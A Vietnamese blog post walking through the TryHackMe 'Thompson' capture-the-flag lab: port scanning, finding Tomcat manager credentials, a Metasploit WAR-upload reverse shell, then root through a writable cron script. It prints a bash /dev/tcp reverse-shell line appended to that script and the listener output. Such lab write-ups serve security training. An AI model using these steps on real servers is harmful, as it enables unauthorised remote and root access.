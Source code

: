 ```yaml
---
layout: post
author: "Neo"
title: "Tryhackme - Thompson"
date: "2022-03-06"
tags: [
    "tryhackme",
    "web",
    "tomcat",
    "linux",
    "burpsuite",
    "metasploit",
    "ssh",
]
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

![intro](/assets/img/2022-03-06-THM-Thompson/1.png)

Xin chào, Lẩu đây. Hôm nay tôi sẽ giải CTF [Tryhackme - Thompson](https://tryhackme.com/room/bsidesgtthompson)
## Reconnaissance

Vẫn như thông thường, việc đầu cần làm quét các cổng đang mở trên máy chủ mục tiêu.

```python
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Với Apache Tomcat 8.5.5 tôi thử tìm exploit và ra được 2 kết quả

```python
┌──(neo㉿kali)-[~]
└─$ searchsploit tomcat 8.5.5 
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)                                               | windows/webapps/42953.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)                                               | jsp/webapps/42966.py
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                  
┌──(neo㉿kali)-[~]
└─$ 
```

Tuy nhiên khi thử khai thác 2 exploit này tôi không thu được kết quả gì khả quan. Tạm thời tôi sẽ để nó lại. Với port 8009, tôi nhớ nó có liên quan đến [Ghostcat](https://book.hacktricks.xyz/network-services-pentesting/8009-pentesting-apache-jserv-protocol-ajp) nên đã tìm lại lỗ hổng liên quan đến nó. 

Thử dùng Metasploit cũng không có kết quả do phải có username và password. Tôi sẽ quay về với cách sơ khai nhất là tìm path với *dirsearch*

```python
┌──(neo㉿kali)-[~]
└─$ dirsearch -u 10.10.222.69:8080

  _|. _ _  _  _  _ _|_    v0.4.2                                                                                                                                                             
 (_||| _) (/_(_|| (_| )                                                                                                                                                                      
                                                                                                                                                                                             
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/neo/.dirsearch/reports/8080_22-09-26_03-55-39.txt

Error Log: /home/neo/.dirsearch/logs/errors-22-09-26_03-55-39.log

Target: http://10.10.222.69:8080/

[03:55:39] Starting: 
[03:56:07] 400 -    0B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[03:56:09] 400 -    0B  - /a%5c.aspx                                        
[03:56:35] 200 -    3KB - /build.xml                                        
[03:56:46] 302 -    0B  - /docs  ->  /docs/                                 
[03:56:47] 200 -   16KB - /docs/                                            
[03:56:51] 302 -    0B  - /examples  ->  /examples/                         
[03:56:51] 200 -    1KB - /examples/                                        
[03:56:51] 200 -    6KB - /examples/servlets/index.html                     
[03:56:51] 200 -  658B  - /examples/servlets/servlet/CookieExample
[03:56:51] 200 -  946B  - /examples/servlets/servlet/RequestHeaderExample   
[03:56:52] 200 -  673B  - /examples/jsp/snp/snoop.jsp                       
[03:56:53] 200 -   21KB - /favicon.ico                                      
[03:56:57] 302 -    0B  - /host-manager/  ->  /host-manager/html            
[03:56:57] 401 -    2KB - /host-manager/html                                
[03:57:00] 200 -   11KB - /index.jsp                                        
[03:57:09] 302 -    0B  - /manager  ->  /manager/                           
[03:57:10] 401 -    2KB - /manager/status/all                               
[03:57:10] 401 -    2KB - /manager/html
[03:57:10] 401 -    2KB - /manager/jmxproxy/?qry=STUFF                      
[03:57:10] 401 -    2KB - /manager/jmxproxy                                 
[03:57:10] 401 -    2KB - /manager/html/                                    
[03:57:10] 401 -    2KB - /manager/jmxproxy/?get=java.lang:type=Memory&att=HeapMemoryUsage
[03:57:10] 401 -    2KB - /manager/jmxproxy/?get=BEANNAME&att=MYATTRIBUTE&key=MYKEY
[03:57:10] 401 -    2KB - /manager/jmxproxy/?get=java.lang:type=Memory&att=HeapMemoryUsage&key=used
[03:57:10] 401 -    2KB - /manager/jmxproxy/?set=Catalina%3Atype%3DValve%2Cname%3DErrorReportValve%2Chost%3Dlocalhost&att=debug&val=cow
[03:57:10] 302 -    0B  - /manager/  ->  /manager/html
[03:57:10] 401 -    2KB - /manager/jmxproxy/?set=BEANNAME&att=MYATTRIBUTE&val=NEWVALUE
[03:57:10] 401 -    2KB - /manager/jmxproxy/?invoke=Catalina%3Atype%3DService&op=findConnectors&ps=
[03:57:10] 401 -    2KB - /manager/jmxproxy/?invoke=BEANNAME&op=METHODNAME&ps=COMMASEPARATEDPARAMETERS
                                                                             
Task Completed                                                                                                                                                                               
                    
┌──(neo㉿kali)-[~]
└─$
```

Truy cập vào */manager/html* thì tôi phải login mới có thể xem được file này

![html](/assets/img/2022-03-06-THM-Thompson/2.png)

Dùng *BurpSuite* để bắt request

![burp](/assets/img/2022-03-06-THM-Thompson/3.png)

Vậy là tôi có uername và password. Quay trở lại Metasploit, hướng dẫn setup ở [đây](https://null-byte.wonderhowto.com/how-to/hack-apache-tomcat-via-malicious-war-file-upload-0202593/)

```python
msf6 exploit(multi/http/tomcat_mgr_upload) > show options

Module options (exploit/multi/http/tomcat_mgr_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  s3cret           no        The password for the specified username
   HttpUsername  tomcat           no        The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.10.222.69     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         8080             yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /manager         yes       The URI path of the manager app (/html/upload and /undeploy will be used)
   VHOST                          no        HTTP server virtual host


Payload options (java/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.18.3.74       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


msf6 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.18.3.74:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying MOqDtqfxEsxNGo...
[*] Executing MOqDtqfxEsxNGo...
[*] Undeploying MOqDtqfxEsxNGo ...
[*] Undeployed at /manager/html/undeploy
[*] Command shell session 1 opened (10.18.3.74:4444 -> 10.10.222.69:55106) at 2022-09-26 05:26:05 -0400

id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@ubuntu:/$ 
```

Tôi tìm thấy *user.txt* trong */home/jack*

## Privilege escalation

Trong thư mục *jack* còn 2 file nữa là *id.sh* và *test.txt*. 

```python
tomcat@ubuntu:/home/jack$ cat test.txt
cat test.txt
uid=0(root) gid=0(root) groups=0(root)
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
id > test.txt
tomcat@ubuntu:/home/jack$
```

Khi chạy *id.sh* nó sẽ in kết quả ra *test.txt*. Kiểm tra *crontab*

```python
tomcat@ubuntu:~$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh
#
tomcat@ubuntu:~$ 
```

File *id.sh* sẽ tự động thực thi, việc của tôi là thêm payload vào file này và chờ hệ thống thực thi. Nhưng trước đó thì tôi phải tạo listener với port 2402 đã `nc -lnvp 2402`

```python
tomcat@ubuntu:/home/jack$ echo '/bin/bash -i >& /dev/tcp/10.18.3.74/2402 0>&1' >> id.sh
<cho '/bin/bash -i >& /dev/tcp/10.18.3.74/2402 0>&1' >> id.sh                
tomcat@ubuntu:/home/jack$ cat id.sh     
cat id.sh
#!/bin/bash
id > test.txt
bash -i >& /dev/tcp/10.18.3.74/2402 0>&1
tomcat@ubuntu:/home/jack$ 
```

Quay lại listener

```python
┌──(neo㉿kali)-[~]
└─$ nc -lnvp 2402
listening on [any] 2402 ...
connect to [10.18.3.74] from (UNKNOWN) [10.10.222.69] 35900
bash: cannot set terminal process group (1998): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/home/jack# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/home/jack# ls /root
ls /root
root.txt
root@ubuntu:/home/jack# 
```

